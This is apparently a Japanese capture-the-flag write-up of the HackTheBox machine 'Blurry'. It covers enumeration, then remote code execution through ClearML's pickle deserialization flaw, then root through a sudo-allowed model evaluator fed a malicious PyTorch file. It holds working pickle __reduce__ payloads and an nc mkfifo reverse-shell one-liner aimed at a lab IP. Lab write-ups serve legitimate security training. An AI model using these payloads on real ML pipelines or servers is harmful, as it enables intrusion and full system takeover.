# Blurry



# Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Sun Jun  9 09:01:12 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/ctf/HTB/machines/Linux/Medium/Blurry/results/10.10.11.19/scans/_full_tcp_nmap.txt -oX /home/hatto/ctf/HTB/machines/Linux/Medium/Blurry/results/10.10.11.19/scans/xml/_full_tcp_nmap.xml 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up, received user-set (0.21s latency).
Scanned at 2024-06-09 09:01:12 JST for 526s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0B2izYdzgANpvBJW4Ym5zGRggYqa8smNlnRrVK6IuBtHzdlKgcFf+Gw0kSgJEouRe8eyVV9iAyD9HXM2L0N/17+rIZkSmdZPQi8chG/PyZ+H1FqcFB2LyxrynHCBLPTWyuN/tXkaVoDH/aZd1gn9QrbUjSVo9mfEEnUduO5Abf1mnBnkt3gLfBWKq1P1uBRZoAR3EYDiYCHbuYz30rhWR8SgE7CaNlwwZxDxYzJGFsKpKbR+t7ScsviVnbfEwPDWZVEmVEd0XYp1wb5usqWz2k7AMuzDpCyI8klc84aWVqllmLml443PDMIh1Ud2vUnze3FfYcBOo7DiJg7JkEWpcLa6iTModTaeA1tLSUJi3OYJoglW0xbx71di3141pDyROjnIpk/K45zR6CbdRSSqImPPXyo3UrkwFTPrSQbSZfeKzAKVDZxrVKq+rYtd+DWESp4nUdat0TXCgefpSkGfdGLxPZzFg0cQ/IF1cIyfzo1gicwVcLm4iRD9umBFaM2E=
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFMB/Pupk38CIbFpK4/RYPqDnnx8F2SGfhzlD32riRsRQwdf19KpqW9Cfpp2xDYZDhA3OeLV36bV5cdnl07bSsw=
|   256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOjcxHOO/Vs6yPUw6ibE6gvOuakAnmR7gTk/yE2yJA/3
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/9%OT=22%CT=1%CU=35269%PV=Y%DS=2%DC=T%G=Y%TM=6664F
OS:2D6%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)O
OS:PS(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AS
OS:T11NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5
OS:(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z
OS:%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Uptime guess: 18.082 days (since Wed May 22 07:11:23 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   86.44 ms  10.10.16.1
2   171.88 ms 10.10.11.19

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  9 09:09:58 2024 -- 1 IP address (1 host up) scanned in 526.29 seconds
```

nmapのスキャン結果からウェブサーバーとsshが稼動していることが分かり、ドメイン情報も見つけたのでhostsファイルにドメインを追加してウェブサイトにアクセスする

```
10.10.11.19		blurry.htb app.blurry.htb
```



ffufでサブドメインの列挙を行うと新たに `files` , `chat` というサブドメインを見つけた

`http://files.blurry.htb` にアクセスすると `OK` とだけ表示されるだけでなにもなかった



## Rocket.chat

`http://chat.blurry.htb` にアクセスすると `Rocket.chat` のというオープンソースのチームコミュニケーションプラットフォームの `Blurry Vision` というワークスペースへのアクセスページが表示された。



アカウントを作成できるようなので作成する


作成すると自動的にログインされ、ワークスペースにアクセスできた



`general` というチャンネルがあるので見てみる



チャットの内容にとくに興味深いものはなかった。ただ、 `jippity` が管理者であることが分かった。

## ClearML

Webサイトにアクセスすると `Clearml` のスタートページ？が表示された


適当な名前を入れると Clearml のdashboardに入れた



ClearMLは、機械学習と深層学習のワークフローを管理、追跡、最適化するためのオープンソースプラットフォームで、実験管理、データセット管理、タスクオーケストレーション、モデルデプロイ、ダッシュボード機能がある。

ClearMLの機能を使用するにはまずpythonのclearmlのパッケージをインストールする必要がある。

以下の説明の通りに実行する



`api` というサブドメインが必要っぽいのでhostsファイルに記入する

パッケージをインストール



clearml-initで初期化



認証情報を貼り付けると攻撃側端末のホームディレクトリに `clearml.conf` が作成された

これでClearMLを使う準備が整った

# Exploit

clearmlの脆弱性について少し調べてみると脆弱性をまとめている記事が見つかった。

[Machine Learning Operations: What You Need to Know Now](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/)



SDK バージョン 0.17.0 から 1.14.2 で見つかった脆弱性
この脆弱性は、信頼できないデータの逆シリアル化が原因で、攻撃者がエンドユーザーのシステムで任意のコードを実行でき、悪意のあるアーティファクトがアップロードされ、Artifact クラス内の get メソッドを使用して逆シリアル化された場合に発生するらしい

Youtubeの動画にRCEを行うpythonスクリプトがあったのでそれを参考にpingを実行するスクラムを作成した

clearml_rce.py
```python
import os  

class RunCommand:
	def __reduce__(self):
		return (os.system, ('ping -c 3 10.10.16.28',))
```

get-artifact.py
```python
from clearml import Task
import pickle
from clearml_rce import RunCommand

def main():
	# インスタンスを生成
	command = RunCommand()
	# タスクを初期化
		task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])

	# アーティファクトをアップロード
	task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")

	# アーティファクトをファイルに保存
	with open('pickle_artifact.pkl', 'wb') as f:
	pickle.dump(command, f)


if __name__ == "__main__":
	main()
```

RCEが機能しているか試す



tcpdumpで疎通の確認をする



パケットをキャプチャすることができたことからRCEが実効できていることが確認できたのでリバースシェルでシェルを取りに行く

いくつか試したところ以下のリバースシェルが機能した
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.28 4444 >/tmp/f
```

clearml_rce.pyのpingの部分をリバースシェルに変更して実行する



`jippity` としてシェルを取得することができた



ホームディレクトリに `.ssh` があるので秘密鍵を取得してssh接続を試みる



秘密鍵を使用してssh接続に成功した



# Privilege Escalation

`sudo -l` を実行すると `/usr/bin/evaluate_model /models/*.pth` がrootとしてパスワードなしで実行できることが分かった。



`/usr/bin/evaluate_model /models/*.pth`をrootとしてパスワードなしで実行できることが分かったのでこれを悪用する



/usr/bin/evaluate_modelはPyTorchモデルを評価するためのスクリプトを実行するもので評価対象のPyTorchモデルファイルを指定することでトレーニング後のモデルの性能を評価することができる。

/modelsに移動する



pythonスクリプトがあり書き込みはできないことが分かった。

`/models` フォルダの権限を見てみる



書き込み権限があるのでスクリプトの追加などを行うことができる。

以下のスクリプトを作成した

```python
import torch 
import torch.nn as nn 
import os 

class MaliciousModel (nn.Module): 
    # すべてのニューラルネットワークモジュールのPyTorch の基本クラス
    def __init__ (self): 
        super(MaliciousModel, self).__init__() 
        self.dense = nn.Linear(10,1) 
    
    # データがモデルをどのように流れるかを定義する
    def forward (self,abdulrahman): # 入力を線形レイヤーに渡す
        return self.dense(abdulrahman) 
   
    # オーバーライドされた __reduce__ メソッド
    def __reduce__ (self): 
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.28 4444 >/tmp/f" 
        return os.system, (cmd,) 

# モデルのインスタンスを作成する
malware_model = MaliciousModel() 

# torch.save を使用してモデルを保存する
torch.save(malware_model,'exploit.pth')
```

このスクリプトを実行することでリバースシェルを実行するexploit.pthというモデルを作成できる。このスクリプトを実行することで作成されたexploit.pthをターゲットマシンにアップロードしてリスナーを起動してから`/usr/bin/evaluate_model` でモデルの評価を行う。



rootとしてシェルを取得することができた



root.txtを取得


